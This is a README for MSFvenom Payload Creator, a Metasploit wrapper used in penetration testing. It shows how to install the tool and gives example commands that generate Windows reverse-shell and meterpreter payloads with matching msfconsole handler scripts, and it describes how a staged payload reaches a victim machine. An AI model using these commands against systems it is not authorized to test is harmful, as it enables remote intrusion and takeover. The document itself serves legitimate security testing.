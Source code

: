 # MSFvenom Payload Creator

## Requirements

The Metasploit framework.

## Installation

MSFvenom Payload Creator is preinstalled in Kali. On other *nix, to install it:

    git clone https://github.com/g0tmi1k/mpc

Set execute permission on the `msfpc.sh` file:

    cd mpc/
    chmod +x msfpc.sh

Start her up with:

    ./msfpc.sh

## Usage

    $ msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>)
    (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>)
    (<VERBOSE>)

* TYPE is the `-f` switch in msfvenom
* DOMAIN/IP is the LHOST option
* PORT is the LPORT option
* CMD/MSF is the type of shell dropped once the payload is executed on the target system.
* BATCH/LOOP to generate multiple payloads (multiple OS platforms) with a single command. 

## Examples

### Drop cmd windows
A classic reverse shell payload (generating a payload with a `cmd` as the preferred shell for
Windows, setting the LHOST to the IP retrieved from the eth0 Ethernet interface of the Kali machine):

    $ msfpc cmd windows eth0
    
Two files are created, an executable payload by name of `windows-shell-staged-reverse-tcp-443.exe`, and a 
resource file named `windows-shell-staged-reverse-tcp-443-exe.rc`, useful for automating repetitive tasks in 
Metasploit. Resource scripts can chain series of Metasploit console commands and directly embed Ruby to do 
things such as call APIs, interact with objects in the database, and iterate actions.

### Drop msf windows

    $ msfpc msf windows eth0

The payload is now set to a `windows/meterpreter/reverse_tcp`. 
The associated resource file can be executed with:

    msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-443-exe.rc'

When the payload is executed, the stager will request for other parts of the payload to be
sent over to the target server. These parts of the payload will be sent by payload handler
and the complete staged payload is delivered to the victim machine.
